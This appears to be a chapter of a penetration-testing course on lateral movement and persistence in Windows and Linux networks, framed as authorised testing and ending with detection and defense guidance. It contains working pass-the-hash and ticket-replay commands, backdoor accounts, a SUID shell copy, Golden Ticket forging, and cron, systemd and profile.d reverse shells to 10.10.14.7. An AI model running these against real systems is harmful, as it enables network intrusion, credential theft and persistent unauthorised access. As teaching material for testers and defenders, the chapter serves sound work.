





**Level:** Expert · **Track:** Penetration Testing · **Read time:** 90 min

This is Chapter 7 of the Privilege Escalation notebook and its capstone. The previous chapters got you SYSTEM/root on a host and harvested credentials from it. This chapter spends those credentials: **lateral movement** carries you from one machine to the next using stolen hashes, tickets, and keys — no new exploit required — and **persistence** ensures that a dropped shell, a rebooted server, or a rotated password doesn't cost you the access you worked for. Together they turn a single foothold into durable control of a network, which is exactly what the Active Directory notebook (next) builds on.

The mental shift here is from *breaking in* to *moving around as a legitimate user*. Lateral movement with valid credentials looks, to most tooling, like an admin doing their job — which is what makes it powerful and what makes detecting it hard. Persistence, meanwhile, is a double-edged responsibility on an authorised test: every backdoor you plant is a real backdoor on the client's systems, so it must be tracked and removed.

Everything here uses credentials against live systems and installs durable access. It assumes an explicit, written, scoped engagement or lab hardware you own. Persistence in particular must be pre-authorised, documented in detail, and fully removed at engagement end — an un-cleaned backdoor is negligence.

> **Why this chapter is the capstone.** Local privilege escalation (the previous chapters) proves you can own *a* machine. This chapter proves you can own the *network*. That jump — from a single compromised host to organisation-wide control — is what a real internal engagement is fundamentally about, and it is achieved almost entirely through credential reuse and disciplined movement rather than fresh exploits. If you internalise one idea, let it be this: after the initial foothold, hacking a network is a logistics problem (which credential reaches which host) far more than a technical one.

---

## Part 1: The Assumed-Breach Model and the Two Goals

Modern engagements often start "assumed breach": you're given a foothold and asked to show how far an attacker gets. From there, two intertwined goals:

- **Lateral movement** — reach *more* hosts, hunting for the credentials/data/privilege that complete the objective (usually Domain Admin or specific "crown jewel" access).
- **Persistence** — *keep* access across disconnects, reboots, and credential changes, so the engagement isn't ended by a flaky VPN or a patched entry point.



The engine is the harvest→reuse loop from the previous chapter: each host you reach yields credentials that reach the next. Lateral movement is *how* you spend a credential; persistence is *insurance* on the access you've gained. Both should be minimal and deliberate — spread only as far as the objective needs, persist only where authorised.

---

## Part 2: Authentication Material You Can Reuse

Lateral movement reuses one of four things harvested earlier:

| Material | Reuse technique | Cracking needed? |
|----------|-----------------|------------------|
| **Plaintext password** | `runas`, PSExec, SSH, WinRM | no |
| **NT hash** | pass-the-hash | no |
| **Kerberos TGT/ticket** | pass-the-ticket | no |
| **NT hash → TGT** | overpass-the-hash | no |
| **SSH private key** | key-based SSH | no |

The unifying theme: **none require the plaintext** except where a service only accepts a password. An NT hash authenticates via NTLM directly (PtH); a hash can be turned into a Kerberos TGT (overpass-the-hash) to use Kerberos-only services; a stolen ticket is replayed as-is (PtT); an SSH key logs in wherever it's trusted. This is why the previous chapter stressed *harvesting* over *cracking* — you rarely need the password to move.

---

## Part 3: Windows Lateral Movement — The Exec Tools

Impacket's `*exec` family and friends run commands on a remote Windows host given admin credentials/hash. Each uses a different mechanism (and leaves a different footprint).

### PsExec (SMB + service)

```bash
# password:
impacket-psexec CORP/Administrator:'Pass'@10.0.0.21
# pass-the-hash:
impacket-psexec -hashes :NThash CORP/Administrator@10.0.0.21
```

PsExec uploads a service binary over SMB (`ADMIN$`), creates and starts a Windows service to run it, and gives you a SYSTEM shell. Reliable but **noisy**: it writes a file and creates a service (Event ID 7045).

### SMBExec (fileless-ish)

```bash
impacket-smbexec -hashes :NThash CORP/Administrator@10.0.0.21
```

Similar to PsExec but avoids uploading a binary — it creates a service that runs commands via `cmd`, capturing output over SMB. Less disk footprint, still creates a service.

### WMIExec (no service, quieter)

```bash
impacket-wmiexec -hashes :NThash CORP/Administrator@10.0.0.21
```

Runs commands via **WMI** (Win32_Process). No service created, no binary uploaded — quieter than PsExec. A favourite for stealthier lateral movement. Semi-interactive.

### WinRM (evil-winrm)

```bash
# password or hash, needs WinRM (5985) and the user in Remote Management Users/admins
evil-winrm -i 10.0.0.21 -u Administrator -H NThash
evil-winrm -i 10.0.0.21 -u jdoe -p 'Pass'
```

Clean PowerShell session with `upload`/`download` and in-memory loading — the most comfortable interactive option when WinRM is available.

### crackmapexec / NetExec (spray + exec)

```bash
# find where a hash is admin, then run a command everywhere
netexec smb 10.0.0.0/24 -u Administrator -H NThash --local-auth -x "whoami"
```



Choose by noise budget: WMIExec/WinRM for quiet, PsExec for reliability, NetExec for breadth.

### Footprint comparison

| Tool | Mechanism | Disk write | Service created | Shell type | Noise |
|------|-----------|-----------|-----------------|-----------|-------|
| psexec | SMB + service | yes (binary) | yes (7045) | SYSTEM interactive | high |
| smbexec | service + pipe | no | yes | semi-interactive | med-high |
| wmiexec | WMI Win32_Process | no | no | semi-interactive | low-med |
| atexec | scheduled task | no | task (4698) | output file | med |
| dcomexec | DCOM | no | no | semi-interactive | low-med |
| evil-winrm | WinRM (WS-Man) | no | no | full PowerShell | med (logged) |

There's also **atexec** (runs via the task scheduler) and **dcomexec** (via DCOM objects like MMC20.Application) — more options when SMB/WMI/WinRM are filtered or monitored. The operator's skill is choosing the mechanism that (a) the target permits and (b) blends with normal admin activity there. On a host where admins use WinRM daily, evil-winrm hides in the noise; on one where they use PsExec, PsExec does. Match your method to the environment's baseline.

---

### atexec and dcomexec — when SMB/WMI are watched

Two more impacket exec options round out the toolkit:

```bash
# atexec: run a command via the remote Task Scheduler, read output from a file
impacket-atexec -hashes :NT CORP/Administrator@10.0.0.21 "whoami"
# dcomexec: execute via a DCOM object (e.g. MMC20.Application / ShellWindows)
impacket-dcomexec -hashes :NT CORP/Administrator@10.0.0.21 "whoami" -object MMC20
```

`atexec` leaves a task-scheduler footprint (Event 4698) but avoids service creation; `dcomexec` uses DCOM activation, which some environments monitor less than SMB/WMI. Having five different mechanisms (psexec/smbexec/wmiexec/atexec/dcomexec) means that when one is blocked or heavily logged, another usually still works — resilience through variety is a core operator advantage. Try the quietest that the target permits, and fall back methodically.

---

## Part 4: Pass-the-Hash, Overpass-the-Hash, Pass-the-Ticket

These are the credential-reuse primitives underneath the exec tools. (The AD notebook covers them in more depth; here is the operational core.)

### Pass-the-Hash (PtH)

Authenticate with an NT hash instead of a password over NTLM:

```bash
# impacket tools all accept -hashes LMhash:NThash (LM can be blank)
impacket-wmiexec -hashes :8846f7eaee8fb117ad06bdd830b7586c CORP/Administrator@10.0.0.21
# mimikatz (spawn a process holding the hash):
mimikatz # sekurlsa::pth /user:Administrator /domain:CORP /ntlm:8846f7... /run:cmd.exe
```

Works wherever NTLM is accepted. The shared-local-admin-hash scenario from the last chapter is PtH in action: one hash, many machines.

Why PtH works, mechanically:



The NTLM protocol never asks for the plaintext — only for a response computed from the NT hash over the server's challenge. Possessing the hash is therefore sufficient to authenticate, which is the entire basis of pass-the-hash. This is a *protocol design property*, not a bug, which is why the mitigations are architectural (LAPS, Credential Guard, disabling NTLM) rather than a patch.

### Overpass-the-Hash (pass-the-key)

Turn an NT hash into a Kerberos TGT, so you can use Kerberos-only services and look like normal Kerberos traffic:

```cmd
Rubeus.exe asktgt /user:jdoe /rc4:<NThash> /ptt
:: /ptt injects the TGT into the current session -> use klist, then Kerberos auth
```

### Pass-the-Ticket (PtT)

Replay a stolen `.kirbi` ticket (from the harvesting chapter):

```cmd
Rubeus.exe ptt /ticket:jdoe_tgt.kirbi
:: or mimikatz:
mimikatz # kerberos::ptt jdoe_tgt.kirbi
klist                       :: confirm the ticket is loaded
:: now access resources as jdoe over Kerberos
```

On Linux/impacket, export a ccache and set `KRB5CCNAME`:

```bash
export KRB5CCNAME=jdoe.ccache
impacket-psexec -k -no-pass CORP/jdoe@target.corp.local
```

`-k` uses Kerberos; `-no-pass` says "use the ticket, not a password."

### PtH vs Overpass vs PtT — when to use which

| Primitive | Input | Use when | Blends as |
|-----------|-------|----------|-----------|
| Pass-the-Hash | NT hash | target accepts NTLM | NTLM logon |
| Overpass-the-Hash | NT/AES key | you want Kerberos (or NTLM disabled) | Kerberos TGT request |
| Pass-the-Ticket | .kirbi/ccache | you stole a live ticket (esp. a privileged TGT) | normal ticket use |

Prefer **overpass/PtT over PtH** on modern, monitored networks: pure NTLM pass-the-hash stands out (many shops alert on NTLM where Kerberos is expected), whereas a Kerberos TGT looks like ordinary domain auth. If you harvested a *ticket* directly (e.g., a DA's TGT from LSASS), PtT is the quietest of all — you're literally replaying a legitimate, unexpired ticket. Match the primitive to what you have and to what the environment considers normal.

---

## Part 5: Linux Lateral Movement

Linux movement is mostly SSH-key and credential reuse.

```bash
# reuse a harvested private key
chmod 600 id_rsa
ssh -i id_rsa user@10.0.0.30
# reuse a password across hosts (watch lockouts)
sshpass -p 'FoundPass' ssh admin@10.0.0.31
# reuse a key found in ~/.ssh/known_hosts targets
cat ~/.ssh/known_hosts       # where does this key go?
```

**SSH agent hijacking:** if a user has SSH-agent forwarding and you're root on their box, you can use their forwarded agent to hop onward without their key file:

```bash
SSH_AUTH_SOCK=$(find /tmp -name 'agent.*' 2>/dev/null | head -1) ssh user@nexthost
```

**Kerberos on Linux:** with a keytab or ccache (previous chapter), authenticate to domain resources:

```bash
export KRB5CCNAME=/tmp/krb5cc_1000
smbclient -k //fileserv/share
```

**SSH ProxyJump for multi-hop:** chain through jump hosts cleanly without manual tunnels:

```bash
ssh -J user@pivot1,user@pivot2 user@deep-target
# or in ~/.ssh/config:
#   Host deep-target
#     ProxyJump user@pivot1
```

**Harvesting more keys as you go:** on each new host, immediately pull `~/.ssh/id_*` and read `known_hosts`/`~/.ssh/config` to see where those keys are trusted — the Linux equivalent of dumping LSASS and spraying the hash. A single widely-trusted key can open an entire fleet.

The Linux lateral pattern is simpler than Windows but the discipline is identical: harvest a key/password/ticket, reuse it on the next host, harvest again. And it interoperates with Windows: a keytab or ccache from a domain-joined Linux box authenticates to AD services (`smbclient -k`, `impacket -k`), so a Linux foothold can be your entry into a Windows domain — a path defenders often overlook because they watch Windows hosts more closely than Linux ones.

---

## Part 5.5: Pivoting and Tunnelling Recap

Lateral movement often requires *reaching* a host you can't route to directly — the segmented-network problem from the netcat/socat notebook. Recap the pivoting options, now in the credential-reuse context:

```bash
# socat single-hop forward (previous notebook)
socat TCP-LISTEN:445,fork TCP:10.0.0.21:445 &   # on a pivot you own
# chisel - reverse SOCKS through a foothold (modern, encrypted)
#   attacker: ./chisel server -p 8000 --reverse
#   pivot:    ./chisel client ATT:8000 R:socks
# ligolo-ng - clean userland VPN-style pivot (current favourite)
# then run impacket/netexec THROUGH the tunnel with proxychains:
proxychains impacket-wmiexec -hashes :NT CORP/Administrator@10.0.0.21
```

The pattern: establish a SOCKS proxy through your foothold (chisel/ligolo-ng), then run your lateral-movement tools through `proxychains` so they reach internal hosts. This marries the *access* (a tunnel) with the *authentication* (a harvested hash) — the two halves of reaching and owning a segmented internal host. For deep multi-hop pivoting, ligolo-ng is the current go-to; for a quick single hop, socat suffices.



---

## Part 5.7: How Long Reused Credentials Last

Reuse material has different lifetimes — plan around them:

| Material | Invalidated by |
|----------|----------------|
| Plaintext password | password change |
| NT hash | password change |
| Kerberos TGT | expiry (default 10h, renew to 7d) |
| Kerberos service ticket | expiry (default 10h) |
| SSH key | key removal from `authorized_keys` |
| Golden Ticket | double krbtgt reset only |

This shapes strategy: a **TGT is short-lived**, so pass-the-ticket is a "use it now" capability — grab a privileged TGT and act before it expires (or renew it). An **NT hash lasts until the password changes**, which for service accounts is often *never*. An **SSH key** persists until someone audits `authorized_keys`. And a **Golden Ticket** is effectively permanent, which is exactly why it's the persistence endgame. Knowing these lifetimes tells you when to act fast (tickets), when you have breathing room (hashes/keys), and what to plant for durability (Golden Ticket / SSH key).

---

## Part 6: Windows Persistence

Every technique below must be **authorised and documented** — you're planting real backdoors on the client's systems.

### Scheduled task

```cmd
schtasks /create /tn "WindowsUpdateCheck" /tr "C:\Windows\Temp\rev.exe" /sc onlogon /ru SYSTEM /f
:: fires at logon as SYSTEM; /sc onstart for boot; /sc minute /mo 30 for beaconing
```

### Service

```cmd
sc create UpdaterSvc binPath= "C:\Windows\Temp\rev.exe" start= auto
:: creates an auto-start service that runs your payload as SYSTEM at every boot
```

### Registry Run key

```cmd
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Windows\Temp\rev.exe" /f
:: runs at user logon; HKCU for a single user, HKLM for all
```

### WMI event subscription (fileless, stealthy)

A WMI permanent event subscription runs a payload when a trigger fires (e.g., every N seconds, or at boot) with no file on disk and no obvious autorun entry — a favourite advanced persistence:

```powershell
# create an __EventFilter + CommandLineEventConsumer + binding (simplified)
# tools like PowerLurk / SharPersist automate this safely for testing
Register-WmiEvent ...   # or SharPersist -t schtask/startupfolder/reg/wmi -c "payload" -m add
```

WMI persistence survives reboots, has no Run-key/Task artifact in the usual places, and is why defenders specifically hunt WMI subscriptions.

A WMI subscription has three parts you must create (and later remove) together:

```powershell
# 1) __EventFilter - the trigger (e.g., fires ~60s after boot)
$Filter = Set-WmiInstance -Class __EventFilter -Namespace root\subscription -Arguments @{
  Name='CorpFilter'; EventNamespace='root\cimv2'; QueryLanguage='WQL';
  Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'" }
# 2) CommandLineEventConsumer - the payload
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace root\subscription -Arguments @{
  Name='CorpConsumer'; CommandLineTemplate='C:\Windows\Temp\b.exe' }
# 3) Binding - link filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace root\subscription -Arguments @{
  Filter=$Filter; Consumer=$Consumer }
```

Removal deletes all three (`Get-WmiObject __EventFilter/CommandLineEventConsumer/__FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject`). Because these live in the WMI repository rather than the file system or usual autorun keys, they're invisible to Autoruns' default view and to a casual look — which is exactly why they're both a favourite advanced-persistence technique and a specific hunt target (Sysmon Events 19/20/21). Tools like **SharPersist** and **PowerLurk** automate creation and cleanup for authorised testing.

### Local admin / account backdoor

```cmd
net user backdoor P@ssw0rd123! /add & net localgroup administrators backdoor /add
:: quiet variant: add an existing low-priv account to administrators
```

### Golden Ticket (domain persistence)

With the `krbtgt` hash (harvesting chapter), forge a TGT for any user, valid for years — persistence that survives every password reset except krbtgt's own. Covered fully in the Golden/Silver ticket chapter; note here that it is the ultimate Windows domain persistence.

Two ticket-based persistence forms preview the AD notebook:

- **Golden Ticket** — forged **TGT** using the `krbtgt` hash; impersonate *anyone* (including a Domain Admin) to *any* service. Survives all password resets except a (double) krbtgt reset. The most durable domain persistence there is.
- **Silver Ticket** — forged **service ticket (TGS)** using a *service account's* hash; access *that one service* as anyone, without ever talking to the DC (quieter, more targeted, no DC log of a TGT request).

```cmd
:: Golden Ticket (mimikatz, needs krbtgt hash + domain SID) - full detail next notebook
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:<hash> /ptt
```

Because a Golden Ticket outlives normal credential rotation, it's both the strongest persistence and the reason incident responders must reset `krbtgt` twice when a domain is compromised — a point worth stating explicitly in any report where you obtained that hash.

| Technique | Trigger | Stealth | Removal |
|-----------|---------|---------|---------|
| Scheduled task | logon/boot/timer | low-med | `schtasks /delete` |
| Service | boot | low | `sc delete` |
| Run key | logon | low | `reg delete` |
| Startup folder | logon | low | delete file |
| WMI subscription | event/timer | high | remove filter/consumer/binding |
| Account backdoor | login | low | `net user /delete` |
| Golden Ticket | Kerberos | high | reset krbtgt twice |

---

## Part 7: Linux Persistence

Equally authorised-and-documented-only.

```bash
# 1) SSH authorized_keys (clean, survives reboot)
echo 'ssh-ed25519 AAAA... op' >> ~/.ssh/authorized_keys   # or root's

# 2) cron callback
(crontab -l 2>/dev/null; echo '*/10 * * * * bash -i >& /dev/tcp/10.10.14.7/443 0>&1') | crontab -

# 3) systemd service + timer
cat >/etc/systemd/system/updater.service <<EOF
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'
EOF
systemctl enable --now updater.service   # (with a matching .timer for beaconing)

# 4) account backdoor (uid 0)
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash svc-mon && passwd svc-mon

# 5) SUID backdoor (root shell on demand)
cp /bin/bash /usr/local/bin/.cache && chmod +s /usr/local/bin/.cache
```

| Technique | Trigger | Removal |
|-----------|---------|---------|
| authorized_keys | on SSH | remove the key line |
| cron | timer | `crontab -e` / remove file |
| systemd service/timer | boot/timer | `systemctl disable --now`; delete unit |
| uid-0 account | login | `userdel` |
| SUID backdoor | on demand | delete the binary |

The cleanest and most reliable is usually an **SSH key** (a real login, survives everything, easy to remove). The most detectable is a uid-0 account. Choose the minimum that meets the engagement's goal, and record every one.

Two more advanced Linux techniques worth knowing (use only where the engagement calls for stealthy persistence):

- **Malicious PAM module / `pam_unix` backdoor** — a modified PAM configuration or module that accepts a magic password for any account. Powerful and stealthy, but invasive; it alters authentication for real users, so it's high-risk on production and should be avoided unless explicitly authorised.
- **Bashrc / profile backdoor** — appending a callback to a widely-sourced file (`/etc/profile.d/*.sh`, a user's `.bashrc`) so it runs on login. Quiet but only fires on shell login.

```bash
# profile.d callback (documented, removable)
echo 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1 &' > /etc/profile.d/00-motd.sh
```

As always, the discipline dominates the cleverness: pick the least invasive mechanism that meets the goal, document it, and remove it. A PAM backdoor that you forget to remove doesn't just leave *you* access — it weakens authentication for every legitimate user, which is a far more serious thing to leave behind than a stray SSH key.

---

## Part 8: OPSEC and the Persistence Responsibility

Persistence on an authorised test is a serious responsibility:

- **Pre-authorise it.** Persistence must be explicitly in scope; some clients forbid it.
- **Document every implant** — host, technique, exact artifact (task name, key path, unit file, account), and its removal command — in your notes *as you plant it*.
- **Prefer reversible, low-blast-radius techniques** (SSH key, a named task) over destructive or hard-to-find ones (WMI subscriptions) unless the engagement specifically tests detection of the latter.
- **Remove everything at engagement end** and verify removal. An un-cleaned backdoor left on a client system is a genuine security incident *you* caused.
- **Match noise to the engagement.** A detection-focused (purple team) test may *want* loud, textbook persistence to validate alerts; a red team wants quiet. Know which you're running.

For lateral movement OPSEC: prefer WMIExec/WinRM over PsExec where stealth matters; reuse existing admin credentials (blends in) rather than creating accounts; and move during business hours when admin activity is normal.

### Timing and blending

A few operational habits that separate quiet movement from obvious:

- **Move during working hours.** Admin logons at 3am from a workstation are a red flag; the same at 2pm blends in.
- **Use the accounts and tools the environment already uses.** If admins use WinRM and a specific service account, so should you.
- **Throttle.** Don't spray a hash across 500 hosts in ten seconds — that pattern is the detection. Touch only what you need.
- **Prefer Kerberos to NTLM.** In an AD environment, Kerberos auth is expected; a burst of NTLM logons stands out.
- **Reuse before you create.** An existing over-privileged account is quieter than a new backdoor account (which fires 4720/4732).

None of this defeats a well-instrumented SOC — the cross-host correlations in Part 10 still apply — but it's the difference between "caught in minutes" and "caught in the debrief," which on a red team is the whole game.

---

## Part 8.5: The Assumed-Breach Workflow, Assembled



This state machine *is* the internal-engagement methodology, and every chapter of this notebook is a transition in it. Lateral movement and persistence are the loops that let a single foothold traverse the whole graph. The Active Directory notebook zooms into the `Move → DomainAdmin` transitions specifically — the Kerberos attacks and ACL abuses that make that jump.

---

## Part 9: Fully Worked Lab — Pivot Across Three Hosts

**Scope:** authorised lab, `corp.local`. You have SYSTEM on `WS01` and, from harvesting, the local admin hash `H` (shared) and a domain user `jdoe`'s hash. Goal: reach the file server `FS01`, then a box where a Domain Admin is logged in, install documented persistence, and prove domain reach — then clean up.

### Step 1 — Spray the local admin hash

```bash
netexec smb 10.0.0.0/24 -u Administrator -H H --local-auth
# 10.0.0.21 (Pwn3d!)  10.0.0.25 (Pwn3d!)  10.0.0.30 (Pwn3d!)
```

Three more hosts share the local admin — classic. Move to the quietest useful one with WMIExec:

```bash
impacket-wmiexec -hashes :H Administrator@10.0.0.25 --local-auth
C:\> whoami
nt authority\system
```

### Step 2 — Harvest, find a DA session

Dump LSASS on `10.0.0.25` (harvesting chapter); a Domain Admin `svc_da` was logged in:

```bash
netexec smb 10.0.0.25 -u Administrator -H H --local-auth --lsa
# CORP\svc_da  NT: DAHASH
```

### Step 3 — Use the DA hash (overpass-the-hash) and reach the DC

```cmd
Rubeus.exe asktgt /user:svc_da /rc4:DAHASH /ptt
klist                       :: TGT for svc_da loaded
```

```bash
# or straight to DCSync with the DA hash:
impacket-secretsdump -hashes :DAHASH corp.local/svc_da@dc01.corp.local
# krbtgt:502:...:KRBTGTHASH:::   <-- domain owned
```

### Step 4 — Install documented persistence (authorised)

```cmd
:: on FS01 — a named, documented scheduled task callback (authorised & logged):
schtasks /create /tn "CorpTelemetry" /tr "C:\Windows\Temp\b.exe" /sc onstart /ru SYSTEM /f
:: recorded in notes: host FS01, task "CorpTelemetry", removal: schtasks /delete /tn CorpTelemetry /f
```

Plus a clean SSH-style fallback on a domain-joined Linux host you also own (`APP02`):

```bash
echo 'ssh-ed25519 AAAA... op' >> /root/.ssh/authorized_keys   # documented; removal: sed -i to delete
```

### Step 5 — Prove domain reach, then clean up

```bash
# Golden Ticket demonstration (documented) using the krbtgt hash - AD notebook covers forging:
# then prove access to the DC as any user, capture evidence for the report
```

Cleanup — reverse everything, in order, and verify:

```cmd
schtasks /delete /tn "CorpTelemetry" /f
sc delete UpdaterSvc 2>nul
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /f 2>nul
net user backdoor /delete 2>nul
del C:\Windows\Temp\b.exe C:\Windows\Temp\rev.exe 2>nul
```

```bash
# on APP02: remove the added key; on the domain: schedule a double krbtgt reset with the client
sed -i '/op$/d' /root/.ssh/authorized_keys
```

The engagement's value is the *chain* — one foothold, shared local admin, a DA session, DCSync, krbtgt — and the two systemic fixes it proves (LAPS + tiered admin). The persistence was demonstrated and removed; the report notes each implant and its removal, and recommends a **double krbtgt reset** as the only complete remediation once that hash is exposed.

---

## Part 9.5: The Attack Narrative for the Report

The value of this chapter in a report is the *chain*, told as a narrative the client can act on. The lab above becomes:

> "From an assumed-breach foothold on WS01, we recovered a **shared local administrator hash** (no LAPS) and used it to authenticate to six additional workstations via pass-the-hash. On one, a **Domain Admin had an active session**, whose credentials we recovered from memory. Using that account we performed a **DCSync**, obtaining every domain hash including `krbtgt`, which grants indefinite domain persistence via Golden Tickets. Two configuration choices — shared local admin passwords and Domain Admins authenticating to workstations — turned a single foothold into full domain compromise."

Notice what the narrative emphasises: not the tools, but the **decisions that made the chain possible** and the **remediations** (LAPS, tiered admin, double krbtgt reset). A pentest report's worth is measured by whether the client can *fix* what you found, and the lateral-movement chain is where the systemic weaknesses become undeniable. Always pair the chain with a diagram and a prioritised remediation list.

---

## Part 10: Detection & Defense Angle

Lateral movement and persistence are heavily monitored on mature networks.

### Lateral movement telemetry

| Technique | Signal |
|-----------|--------|
| PsExec | service creation (7045), `PSEXESVC`, `ADMIN$` write |
| SMBExec | service creation running `cmd /c ... > \\...\pipe` |
| WMIExec | `wmiprvse.exe` spawning `cmd`/`powershell` (Event 4688 + lineage) |
| WinRM | `wsmprovhost.exe` spawning processes; 5985 connections |
| Pass-the-Hash | NTLM logon (4624 type 3) with mismatched workstation; over-used local admin |
| Overpass/Pass-the-Ticket | anomalous TGT/TGS usage; encryption downgrade (RC4) |
| NetExec spray | many 4625/4624 across hosts from one source |

### Persistence telemetry

| Technique | Signal |
|-----------|--------|
| Scheduled task | 4698 (task created); Task Scheduler operational log |
| Service | 7045/4697 |
| Run key / Startup | registry write (Sysmon 13); Autoruns diff |
| WMI subscription | Sysmon 19/20/21 (WMI event filter/consumer/binding) |
| Account backdoor | 4720 (user created), 4732 (added to admins) |
| Linux cron/systemd/keys | file writes to cron/unit dirs, `authorized_keys` (auditd/FIM) |

### Defenses

- **Tiered admin model** — DA accounts never touch workstations; kills the "DA session in LSASS" pivot.
- **LAPS** — unique local admin passwords stop pass-the-hash spread.
- **SMB signing + disable NTLM where possible** — blocks relay and raises PtH cost.
- **Credential Guard / RunAsPPL** — protects the material lateral movement reuses.
- **Restrict WinRM/WMI/admin shares** to jump hosts; segment the network.
- **Monitor** 4624 type-3 patterns, 7045/4698/4720/4732, Sysmon WMI events, and Linux FIM on cron/units/keys.
- **Kerberos hardening** — AES-only, monitor RC4 downgrades and abnormal ticket lifetimes.
- **Disable/limit WMI and PowerShell remoting** to designated management hosts; enable **WMI subscription auditing** (Sysmon 19–21).
- **Protected Users group + Authentication Policies** — prevent privileged accounts' credentials from being cached/delegated on lower-tier hosts.
- **Regular hunt** for the correlations above and for anomalous `authorized_keys`/cron/unit changes on Linux (FIM).

**Blue team usage:** the highest-value detections are service creation (7045) from remote logons (PsExec/SMBExec), `wmiprvse`/`wsmprovhost` spawning shells (WMI/WinRM), and 4720+4732 pairs (account backdoors). WMI-subscription persistence needs Sysmon 19–21 specifically — enable it.

### Correlations that catch lateral movement

Single events are noisy; correlations are high-fidelity:

